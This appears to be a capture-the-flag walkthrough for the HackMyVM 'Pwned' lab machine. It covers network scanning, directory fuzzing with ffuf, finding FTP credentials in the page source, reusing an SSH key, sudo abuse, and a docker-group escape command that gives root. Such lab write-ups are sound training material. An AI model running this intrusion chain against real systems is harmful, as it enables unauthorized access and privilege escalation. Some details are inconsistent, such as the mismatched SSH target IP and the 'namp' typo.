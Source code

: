 # HackMyVM - Pwned

**Lab enviroment**

Kali: **10.0.2.21**

Gift: **10.0.2.22**

## 1. INFORMATION GATHERING
### a. Check IP Kali
`ip a | grep /24`

![ip address](/images/ip_address.png)
### b. Netdiscover
`sudo netdiscover -r 10.0.2.0/24`

![netdiscover](/images/netdiscover.jpg)
### c. Nmap Target Ports
`sudo namp -sS 10.0.2.22`

![nmap target ports](/images/nmap_target_port.jpg)
### d. Nmap Target Services
`sudo nmap -sS -p 21,22,80 -A 10.0.2.22`

![nmap target services](/images/nmap_target_host.jpg)

## 2. ENUMERATION HTTP (PORT 80/tcp)
### a. Firefox
![enumeration_port_80](/images/enumeration_port_80.jpg)

### b. View Source

![view_source](/images/view_sources.jpg)

### c. Enumeration with ffuf
Can try enum urls with ffuf

`ffuf -u http://10.0.2.22/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

![enu_ffuf](/images/enu_ffuf.jpg)

Find 2 urls and try it

![nothing_html](/images/nothing_html.jpg)

Should pay attention to hidden_text link

![secret_dict](/images/secret_dict.jpg)

Save this list in a txt file

`vi secret_dic.txt`

![secret_dict_txt](/images/secret_dict_txt.jpg)

Try to enumerate again with ffuf using secret_dict list.

`ffuf -u http://10.0.2.22/FUZZ -w secret_dic.txt`

![enu_ffuf_secret](/images/enu_ffuf_secret.jpg)

Found a new URL

![pwned_vuln](/images/pwned_vuln.jpg)

And view source, credential log on ftp is show.

![nmap target services](/images/credential_ftp.jpg)

## 4. EXPLOITATION FTP (PORT 21/tcp)

Log on to ftp server

`ftp ftpuser@10.0.2.22`

![ncrack](/images/ftp_1.jpg)

Go to the shared folder and download files with get command to note.txt and id_rsa file.

`get note.txt`

`get id_rsa`

![ncrack](/images/ftp_get_file.jpg)

Read note.txt

![ncrack](/images/note_txt.jpg)

Try to connect via ssh by ariana

`sudo chmod 600 id_rsa`

`ssh -i id_rsa ariana@192.168.5.59`

![ncrack](/images/ariana_ssh.jpg)

And get the first flag user1.txt

![ncrack](/images/user1_txt.jpg)

We see that ariana can execute /home/messenger.sh file as selena user without password, so we can leverage to execute commands in name of selena.

![ncrack](/images/sudo.jpg)

`sudo -u selena ./messenger.sh`

Have the second flag, user2.txt

![ncrack](/images/user2_txt.jpg)

And can run id and see that selena is a member of the group docker.

![ncrack](/images/docker.jpg)

We can take advantage of this

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

Now we are root and can read root.txt in the root folder.

![ncrack](/images/root_txt.jpg)



